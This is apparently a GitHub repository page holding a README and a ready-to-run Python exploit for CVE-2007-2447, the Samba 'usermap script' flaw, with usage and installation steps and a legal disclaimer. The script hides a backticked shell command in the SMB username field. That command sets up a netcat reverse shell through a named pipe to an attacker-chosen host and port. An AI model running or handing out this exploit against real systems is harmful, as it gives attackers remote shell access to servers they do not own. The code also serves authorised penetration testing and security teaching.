 INFO
----

    CVE-2007-2447
    ====

    CVE-2007-2447 - Samba usermap script.
    </br>
    https://amriunix.com/post/cve-2007-2447-samba-usermap-script/

    ## Usage:
    ```shell
    $ python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
    ```
      * `RHOST` -- The target address
      * `RPORT` -- The target port (TCP : 139)
      * `LHOST` -- The listen address
      * `LPORT` -- The listen port

    ## Installation

        sudo apt install python python-pip
        pip install --user pysmb
        git clone https://github.com/amriunix/CVE-2007-2447.git

    ### Disclaimer:

    All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.

usermap_sctipt.py
------------------

    #!/usr/bin/python
    # -*- coding: utf-8 -*-

    # From : https://github.com/amriunix/cve-2007-2447
    # case study : https://amriunix.com/post/cve-2007-2447-samba-usermap-script/

    import sys
    from smb.SMBConnection import SMBConnection

    def exploit(rhost, rport, lhost, lport):
            payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
            username = "/=`nohup " + payload + "`"
            conn = SMBConnection(username, "", "", "")
            try:
                conn.connect(rhost, int(rport), timeout=1)
            except:
                print("[+] Payload was sent - check netcat !")

    if __name__ == '__main__':
        print("[*] CVE-2007-2447 - Samba usermap script")
        if len(sys.argv) != 5:
            print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
        else:
            print("[+] Connecting !")
            rhost = sys.argv[1]
            rport = sys.argv[2]
            lhost = sys.argv[3]
            lport = sys.argv[4]
            exploit(rhost, rport, lhost, lport)